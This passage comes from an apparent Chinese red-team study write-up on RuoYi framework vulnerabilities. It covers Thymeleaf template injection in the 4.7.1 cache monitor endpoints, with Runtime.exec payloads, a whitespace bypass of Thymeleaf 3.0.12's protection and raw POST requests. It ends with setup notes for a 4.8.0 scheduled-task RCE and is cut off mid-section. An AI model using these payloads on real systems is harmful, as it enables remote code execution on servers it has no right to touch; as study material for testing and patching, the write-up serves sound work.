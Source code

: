 ```  
  
在4.7.1版本CacheController类中  
  
![[../S24-25赛季-大黑客之路/红队知识学习/assets/Y10 若依ruoyi/file-20250416135654610.png]]  
#### 漏洞复现  
  
模板注入漏洞payload：  
  
return内容可控：  
```
${new java.util.Scanner(T(java.lang.Runtime).getRuntime().exec("calc").getInputStream()).next()}::.x
```  
  
URL路径可控：  
```
${T(java.lang.Runtime).getRuntime().exec("touch test")}::.x
```  
  
测试上述payload发现返回包返回500，具体情况是Thymeleaf3.0.12  
版本对这个版本进行了一些先知，防止模板注入漏洞，https://github.com/thymeleaf/thymeleaf/issues/809  
  
以下为防护的情况：  
  
我们将Payload改造一下，如${T (java.lang.Runtime).getRuntime().exec("calc.exe")}  
。在T和(之间多加几个空格即可，放入数据包中进行测试发现成功弹出计算器。  
  
这里为了方便演示，payload  
直接贴出来了，大家测试的时候记得进行URL  
编码。  
```
POST /monitor/cache/getNames HTTP/1.1fragment=__${T%20(java.lang.Runtime).getRuntime().exec('open -a calculator')}__::.x
```  
```
cacheName=123&fragment=${T (java.lang.Runtime).getRuntime().exec(“calc.exe”)}
```  
#### 接口/monitor/cache/getKeys  
#### 接口/monitor/cache/getValue  
#### 接口/demo/form/localrefresh/task  
# 0x09 若依4.8.0版本计划任务RCE  
### 环境搭建  
  
https://github.com/yangzongzhuan/RuoYi/releases  
  
导入数据库，修改application-druid中的数据库账号密码  
  
修改application中的文件路径及log存放路径  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/b7iaH1LtiaKWXJ8reQFglz7znmQhDM8vxNHDbOojDzUGBRBctib3SFVkwvap8WiaxDqdQpDAHGUNIUTm8xTHITvkhQ/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/b7iaH1LtiaKWXJ8reQFglz7znmQhDM8vxNERUviaLu9zPhABjIOFL5CB7pXBM2iboIs4cdLy5LPazrRiblnIjUoPKDw/640?wx_fmt=png&from=appmsg "")  
  
  
启动成功  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/b7iaH1LtiaKWXJ8reQFglz7znmQhDM8vxNFYCUgMw8sXny5h2JMTb5O7mvh7YdnsogZZxrBNiavoDxHNHxaswMmAA/640?wx_fmt=png&from=appmsg "")  
## 漏洞分析  
  
最新版本4.8 Ruoyi 后台⽬前限制  
- **规则**  
```
